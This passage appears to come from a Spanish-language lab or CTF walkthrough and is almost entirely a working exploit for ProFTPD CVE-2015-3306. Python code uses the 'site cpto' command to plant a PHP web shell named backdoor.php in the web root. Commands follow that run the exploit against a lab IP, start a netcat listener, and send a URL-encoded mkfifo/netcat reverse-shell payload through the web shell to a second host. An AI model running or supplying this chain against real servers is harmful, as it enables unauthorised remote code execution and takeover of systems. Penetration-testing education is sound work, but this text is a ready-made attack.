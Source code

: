 ```python
        self.__sock.recv(1024)
        self.__sock.send(("site cpto "+ self.__path +"/backdoor.php\n").encode("utf-8"))

        if "Copy successful" in str(self.__sock.recv(1024)):
            print("[+] Target exploited, acessing shell at http://" + self.__host + "/backdoor.php")
            print("[+] Running whoami: " + self.__trigger())
            print("[+] Done")
        else:
            print("[!] Failed")

    def __trigger(self):
        data = requests.get("http://" + self.__host + "/backdoor.php?cmd=whoami")
        match = re.search('cpto /tmp/.([^"]+)', data.text)
        return match.group(0)[11::].replace("\n", "")

    def run(self):
        self.__connect()
        self.__exploit()

def main(args):
    print("[+] CVE-2015-3306 exploit by t0kx")
    print("[+] Exploiting " + args.host + ":" + args.port)

    exploit = Exploit(args.host, int(args.port), args.path)
    exploit.run()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True)
    parser.add_argument('--path', required=True)
    args = parser.parse_args()

    main(args)
```

Ejecutamos el siguiente comando

```bash
cd exploit-CVE-2015-3306 && python ./exploit.py --host 192.168.19.117 --port 21 --path "/var/www/html/"   
```
Ahora con netcat lo dejaremos en escucha por el puerto 9000
```bash
nc -lvnp 9000
```
Ponemos la siguiente url
`http://192.168.19.117/backdoor.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.19.125%209000%20%3E%2Ftmp%2Ff`

<img src="./img/url.png">
